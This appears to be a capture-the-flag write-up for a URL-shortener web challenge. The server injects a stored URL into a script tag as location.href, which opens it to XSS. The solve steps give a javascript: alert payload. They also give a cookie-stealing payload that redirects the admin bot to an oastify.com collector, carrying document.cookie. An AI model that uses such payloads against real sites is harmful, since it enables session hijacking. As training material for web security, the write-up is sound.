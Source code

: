 2. User visits the shortened URL

	>1. The server retrieves the `original_url` associated with the `short_code` from the database.
	>2. The server renders `redir.html`, injecting the `original_url` into (view snippet below)

	```html
	<script>
	    location.href = "{{ url }}"
	</script>
	```

**To solve:**

1. Submit an XSS payload `javascript:alert(document.cookie)` instead of a normal URL. The server generates a random 6-character alphanumeric `short_code`, maps it to the submitted `original_url` (xss payload), inserts the mapping into the database, and returns the shortened URL
	- The payload MUST NOT contain any HTML special characters (`"`, `<`, `>`, `&`, `'`).
2. Report the shortened URL via the `/report` endpoint.
3. Admin visits the shortened URL because it complies with the restrictions `http://web-opps-app:5000` and the path matches the expected 6-character alphanumeric format.
4. Server retrieves the `original_url` associated with the `short_code` from the database and renders it into `redir.html`. Flask returns `<script>location.href="<original_url>"</script>`. In this case it will be `<script>location.href="javacsript:alert(document.cookie)"</script>`
5. The XSS payload is executed when the admin loads the page.

## Solve

1. Verify that XSS is possible with an alert payload

	```
	original_url=javascript:alert(1)
	```

	![]({{ page.img_path }}Oops-1748770951108.png)

2. Visit the shortened URL 
	![]({{ page.img_path }}Oops-1748771091150.png)

3. Replace the `alert` with a payload to exfiltrate cookies and verify it locally before proceeding.

	```
	javascript:location.href=`https://k4psg6qqz7gqf2jspepvrpmgt7zynqlea.oastify.com/collect?c=${document.cookie}`
	```

	![]({{ page.img_path }}Oops-1748771249888.png)

	> Payload Worked !
	>- It doesn't use any HTML characters.
	>- `httpOnly: false`, the cookie is **accessible via `document.cookie`** and can be exfiltrated.
	>- We're redirected to attacker's server.
    {: .prompt-info}
